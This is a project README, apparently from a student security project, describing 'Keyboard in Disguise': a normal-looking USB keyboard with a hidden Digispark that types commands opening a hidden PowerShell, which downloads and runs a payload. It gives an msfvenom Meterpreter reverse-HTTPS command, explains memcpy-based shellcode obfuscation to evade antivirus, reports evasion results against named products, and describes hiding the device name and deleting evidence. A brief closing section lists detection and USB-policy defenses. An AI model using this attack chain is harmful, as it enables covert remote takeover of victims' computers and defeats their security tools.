

# Keyboard in Disguise (KiD)

## Parts used
1. Standard USB keyboard   


2. USB hub with FE1.1s chip  


3. DigiSpark with Arduino ATtiny85 microprocessor  


We want to use Digispark to deliver the payload while still keeping the keyboard functional, so a USB hub is needed.
The internal keyboard PCB is connected to the USB hub, and digispark is also connected to up. The upstream port of the USB hub is what will be connected to the computer.


The internal connections and layout of the completed keyboard are as follows:


The completed keyboard looks identical to when it was unmodified:


## Programming Digispark

To program Digispark to deliver the keystrokes we wanted, we will need an IDE to write to Digispark. We can use either the Arduino IDE or the PIO extenstion in Visual Studio Code. After the desired code is written into the IDE, press the upload button in the IDE and connect Digispark into the computer. The sorce code of the Digispark keystrokes will be explained at a later section.

## Digispark bootloader

By default, the Digispark have a 5 second programming delay once plugged in for uploading new code. This has caused issues for Windows to fail to recognise Digispark as a USB device when it is connected to the hub with another keyboard, a new bootloader is needed to remove the delay, removing the delay also allows the attack to be carried out faster.

The bootloader can be found [here](https://github.com/micronucleus/micronucleus/tree/v1.11/upgrade/releases) under the name `micronucleus-1.11-entry-jumper-pb0-upgrade.hex`, the program to flash the bootloader can be found [here](https://github.com/digistump/DigistumpArduino/releases/download/1.6.5a/micronucleus-2.0a4-win.zip).

To flash the firmware, unzip the micronucleus folder, in a command prompt, enter the full path of micronucleus.exe, followed by the full path of the bootloader hex file, then plug in Digispark to the computer.

After the bootloader is flashed, the delay should be removed. To program Digispark after flashing to the new bootloader, bridge the GND and P0 pins on Digispark with a conductive wire when uploading new code.

## Hiding Digispark's name
 When a USB device is first initialised, a notification will show up in windows with the name of the device, to change the name of Digispark to better hide the device, navigate to the Arduino config file ```libraries\DigisparkKeyboard\usbconfig.h```, the name can be changed accordingly.   
   

## Writing a custom payload
Most antiviruses scan for known signatures to detect viruses/malwares, in order to successfully deliver the payload to the victim machine, which means most of the commonly used payloads and obfuscation method will not work. The signature of the payload must not be in any antivirus databases, so a completely new custom payload will have to be created.

First, we can use msfvenom to generate a shellcode, this will be the basis where the custom payload will be built on. We chose to use reverse https encoded using the shikata_ga_nai encoder and output in C, this will make the shellcode harder to detect. 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.10 LPORT=443 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -e x86/shikata_ga_nai -i 8 -f c > shell.c
```
   
The raw shellcode can be found under ```final/shell.c```. 

Just the shellcode itself will not evade any antivirus, so next we will need further obfuscate the shell code. In visual studio, create a new C project, we will mainly be using the ```memcpy``` function. The ```memcpy``` function allows flipping of bytes, replacing a specified number of bytes in the target ```char``` with a second ```char```. The syntax of ```memcpy``` is as follows:
```
memcpy(<target char> + <offset>, <secondary char>, <length of secondary char>)
```
   

Using the function, we can replace the geninue bytes with dummy bytes, and store the genuine bytes in another string, when the executable runs, the genuine shellcode will then be assembled. The random bytes can be generated using [random.org](https://www.random.org/bytes/), filled and counted using [Cyberchef](https://gchq.github.io/CyberChef/). Windows defender will be our primary antivirus solution to evade, since it's the most common antivirus on a windows computer. Windows defender has gotten very good at recognising signature of the payloads, so more ```memcpy``` functions will have to be used to evade detection.   

In the final payload, the source code can be found under ```final/payload_source.cpp```, the shellcode is broken into 4 parts, each with their own scrambled bytes, and with many extra bytes and strings thrown in between. Each part are individually assembled and the 4 parts are pieced together at the end. After obfuscation is done, build the source code into a ```.exe``` file.

Unfortunately, since windows recently added meterpreter signatures (the toolset that we're using to gain control of the victim machine), once the shellcode is reassembled, windows defender can still detect the signature, so the success rate of the payload is not very high, although we did manage to gain control a few times. Nevertheless, being able to be downloaded undetected by most antivirus solutions has proved that the evasion method works. We believe that using similar evasion method to generate a ```.dll``` file, and run the payload in memory will be able to open a reverse shell undetected. More antivirus tests can be found at the following sections.   

## Delivering the payload
Kali will be our attacking machine since it offers a wide range of tools, and we will be using the meterpreter framework to control the victim machine.   

To deliver the payload, we chose to use a 2-stage payload, with the first stage being a powershell script ```.ps1``` file, this will give us better control of the attack steps, and reduce the length of commands needed to be entered to the victim's computer. Digispark will contain the keystrokes to start the attack, we first open a hidden powershell window, then download and run the ```.ps1``` file in memory, the source code of Digispark keystrokes can be found under ```final/digispark.cpp```.      

The first stage of the payload can be found under ```final/1.ps1```, the script downloads the ```.exe``` file that we made earlier and run it, which can be found under ```final/0.exe```. the payload then deletes the ```.exe``` file after it has been run as to not leave any evidence.
   

We also need to migrate the process once the meterpreter shell opens so that the payload can be deleted by the powershell script, this can be done automatically using a ```.rc``` script in Kali. The script can be found under ```final/auto_migrate.rc```. To simplify the steps of preparing the reverse handler in Kali, another ```.rc``` script can be used, which can be found under ```final/kid_msf_auto.rc```, this script also calls the auto migrate script so both steps can be done at once.     
   

Finally, flash Digispark using the appropriate code using the [steps explained earlier](#programming-digispark), they keystrokes will open a hidden powershell instance and enter the commands to execute the first stage of the attack. In Kali, install and start Apache service, then place ```0.exe``` and ```1.exe``` under ```/var/www/html```, and place ```kid_msf_auto.rc``` and ```auto_migrate.rc``` under ```/home/kali```. In a terminal, start the reverse shell handler by entering
```
msfconsole -q -r /home/kali/kid_msf_auto.rc
```
and wait for the victim machine to connect.   

Once the keyboard is plugged into the victim machine, assuming network configurations are correct and it is not intercepted by antivirus, a reverse shell should be opened and we will have control of the victim machine.   

## Remote desktop
To be able to control the vimctim's machine remotely, an admin powershell is needed.   
...

The code to flash to Digispark will be different but the remaining steps after flashing will be the same as we have [laid out earlier](#Delivering-the-payload).

## Antivirus evasion

**VirusTotal**: VirusTotal is malware analyser that uses a number of antivirus scanners from different cybersecurity vendors. Our payload was only detected by ../.. antivirus engines. (TO ADD CLOSER TO PRESENTATION DATE)   

**AVG:**  AVG antivirus can be evaded as per the demo video.   
  
**Avast:**  Avast can be partially evaded, if webshield is turned off to allow downloading of local network files(Avast blocks downloading files local network by default, for this project, we hosted the files on the local network for easier access and management, however, if this is a real attack, the payload would be hosted on a remote server and the webshield would not block the download), with fast migration, the meterpreter shell stayed open for a few mimutes before being detected.   
   

 
**Windows Defender:**  in some cases, we were able to evade it, although it is not consistent, most of the time the payload can be downloaded but a meterpreter session cannot be opened without being detected.   
   


**Malwarebytes:**  Malwarebytes can be evaded.   
  

**360 Anti-Virus:** 360 Anti-Virus can be evaded.
 


**Kaspersky Security Cloud:**  The payload can be downloaded without being detected, but a meterpreter session cannot be opened without being detected.   

**Bitdefender Antivirus Free Edition:**  We were not able to evade Bitdefender Antivirus Free Edition.   

We were not able to test Mcafee, Norton because credit card information is required to start the free trail.   

Although many antivirus solutions can be evaded as of writing, we expect this specific payload be ineffective soon, as we have used it against many different anitvirus solutions, and they are quick to regonise new payload signatures. However, using different bytes and different layout when obfuscating the shellcode, a new payload with a unique signature can be wrriten and used to evade antivirus solutions.

## Prevention of similar attacks
**Is there a way to bypass keylogger:** "No", f there is a keylogger on your machine there is no way to know what it's capability are or how you can be absolutely guarantee to bypass it. Why because keylogger is a malware it has a specified behaviour that attempt to log your keystroke most commonly they try to log your keystroke and then share with someone else.

Yes, you can bypass some of them but you don't know that you will bypass the one you actually have.

**Display protocol statistic:** Command Prompt run as administrator to display protocol statistic and current TCP/IP network connections.
[reference](https://www.crackitdown.com/2018/12/detect-malware-or-keylogger-on-windows-html/)

**List of connections:** Netstat -a, -b, -bno


**To check all the connections:** Netstat -a

**You want to know which applications is connected to the internet:** Netstat -b

**To know the process Id type:** Netstat -bno

**Ip lookup:** To know which connection is the keylooger you need to look in the ip address lookup manully, search ip address by google to get the clear idea. Similarly search by the application name to know which applications is working as rat/keylogger.


**Search by application name:** To know which applications is working as rat/keylogger


**One of the recommandation for Anti-malware**

**Advanced proctection MalwareFox Anti-Malware:** Free fuctional trial for 14 days for advanced malware detection and removal, fast & light won't slow down computer and browser cleanup(only disinfect). 

For better protection need to but MalwareFox Premium for advanced malware detection and removal, browser cleanup, rootkits and rootkits proctection, ransomware proctection, realtime protection, fast & light, stop zero day exploit, anti-logger, intelligently works in background and premium support. [reference](https://www.malwarefox.com/)


**Others Anti-Malware:** Malwarebytes,McAfee,BitDefender,Norton,Panda & BullGuard [reference](https://www.antivirusguide.com/best-malware-protection/?lp=default&utm_source=google&utm_medium=cpc&sgv_medium=search&utm_campaign=6478205166&utm_content=97940972094&utm_term=malware%20protection&cid=425328699728&pl=&feeditemid=&targetid=aud-755007040539:kwd-63356560&mt=b&network=g&device=c&adpos=&p1=&p2=&geoid=9062519&gclid=CjwKCAjw8cCGBhB6EiwAgORey6sYtN8PB8XE7e6PDCd4_nAJharS2IVbi4zy5UYe---Ly4zKLdeG3hoC3RUQAvD_BwE)

To better protect your computer most of the Antivirus Software need to buy [reference](https://www.security.org/antivirus/do-you-need-antivirus/)

**Keyscrambler:** Keyscrambler is also one of the most effective anti-keylogging software[reference](https://www.qfxsoftware.com/)

**Use task manager to detect keylogger:** Navigate to Windows logon application, if it has duplication entry which sound unusual like Windows logon (1) it mean someone else is logon to your Windows system so right click and end the program.


Also check under Start up tab to see if any suspicious-looking programs in the boot menu, disable them


**Control Panel:** You can check the list of applications in programs and features to see if there is a keylogger installed. Look for any suspicious program that you didn’t install and uninstall it.


**To prevent unauthorised usb device:** Run Local Group Policy Editor (gpedit) -> expand Administrative Templates -> expand System -> Device Installation Restrictions and configure the settings to prevent unauthorised usb device.[reference](https://docs.microsoft.com/en-us/windows/client-management/mdm/policy-csp-deviceinstallation#deviceinstallation-allowinstallationofmatchingdeviceinstanceids)


**One example of the policy you can configure**

This policy setting allows you to prevent the installation of devices that are not specifically described by any other policy setting


## References
[DigiKeyboard reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
|
[DigiMouse reference](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h) 
(only one can be used at a time)

[Msfvenom payload reference](https://github.com/swisskyrepo/PayloadsAllTheThings)   

Custom payload references [1](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change) [2](https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/) [3](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)
